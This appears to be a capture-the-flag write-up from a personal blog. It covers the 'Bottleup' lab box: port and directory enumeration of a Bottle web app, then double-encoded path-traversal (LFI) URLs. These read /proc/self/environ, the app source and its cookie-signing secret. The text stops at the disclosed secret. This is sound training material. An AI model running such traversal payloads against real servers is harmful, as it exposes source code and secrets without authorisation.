

repository: gmrvh/blog · page: pg/bottleup/index.html · generator: mkdocs

# Bottleup - Writeup

## Initial Enumeration

### Port Scanning
A basic port scan revealed only two standard services running:
```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5
80/tcp   open  http    Bottle web server (Python 3.8.10)
```

### Web Enumeration
The target was running a web application built with the Bottle Python framework. Initial exploration of the web interface showed a simple blog application.

I performed directory enumeration to identify potential attack vectors:
```bash
feroxbuster -u http://192.168.185.246:8080 -w /usr/share/wordlists/dirb/common.txt
```

This revealed several endpoints, including a potentially vulnerable `/view` endpoint.

## Gaining Initial Access

### Local File Inclusion Vulnerability
I discovered that the `/view` endpoint was vulnerable to Local File Inclusion (LFI):
```
http://192.168.185.246:8080/view?page=%252e%252e%252f%252e%252e%252f%2Fproc%2Fself%2Fenviron
```

This vulnerability allowed me to read system files. I used it to identify the application's execution directory:
```
http://192.168.185.246:8080/view?page=%252e%252e%252f%252e%252e%252f%252fopt%252fbottle-blog%252fapp.py
```

### Application Source Code Disclosure
The LFI vulnerability exposed the application's source code:
```python
from bottle import route, run, static_file,template,request,response,error
from config.secret import secret 
import os 
import urllib
import re
@route("/")
def home():
    session = request.get_cookie('name',secret=secret)
    if (not session):
        session={"name":"guest"}
        response.set_cookie('name',session,secret=secret)

    return template('index',name=session['name'])

@route('/static/js/<filename>')
def server_static(filename):
    return static_file(filename, root=os.getcwd()+'/views/js/')

@route('/static/css/<filename>')
def server_static(filename):
    return static_file(filename, root=os.getcwd()+'/views/css/')
```

I also discovered the application's secret key used for cookie signing:
```
http://192.168.185.246:8080/view?page=%252e%252e%252f%252e%252e%252f/opt/bottle-blog/config/secret.py
```

This revealed:
```python
secret = "546546DSQ7711DSQDSQXWZ"
```
